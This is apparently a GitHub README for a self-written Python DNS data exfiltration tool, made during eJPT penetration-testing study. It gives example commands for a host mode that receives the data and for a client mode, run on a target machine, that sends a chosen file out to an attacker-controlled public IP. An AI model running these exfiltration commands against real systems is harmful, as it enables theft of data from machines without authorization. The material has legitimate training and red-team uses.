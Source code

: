 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo and run the script as instructed below.

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from. The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:
```
python3 main.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 main.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
```
python3 main.py -h
```
